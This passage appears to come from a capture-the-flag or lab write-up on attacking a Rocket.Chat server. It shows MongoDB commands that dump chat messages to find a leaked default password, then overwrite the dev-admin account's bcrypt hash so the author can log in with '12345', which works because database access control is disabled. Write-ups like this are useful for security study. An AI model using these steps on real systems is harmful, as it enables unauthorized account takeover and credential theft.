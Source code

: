 After dumping the `rocketchat_message` DB, I found another piece of information about the users' default password. Maybe it could be done via the API too:

```
rs0:PRIMARY> db.rocketchat_message.find()
...
{ "_id" : "r9uubgB5WEdM4ZcHv", "rid" : "b5JuYWTXHnXMbviYa", "msg" : "Ah yes. Apologies... I forgot to update the on-boarding information, but we adopted a new password format for the default login. Please use 'Welcome_roundsoft2019!'", "ts" : ISODate("2019-11-17T07:00:44.954Z"), "u" : { "_id" : "WSjGCrfFQBeNJtR3g", "username" : "roundsoft_hr" }, "mentions" : [ ], "channels" : [ ], "_updatedAt" : ISODate("2019-11-17T07:00:44.964Z") }
...
```

As a bonus I can [change](https://docs.rocket.chat/guides/administrator-guides/restoring-an-admin#reset-user-role-to-admin) dev-admin password to be 12345 (because access control is not enabled in the DBMS) and log into the web panel:

```
rs0:PRIMARY> db.users.update({"username": "dev-admin"}, {$set: {"services.password.bcrypt": "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG"}})
```
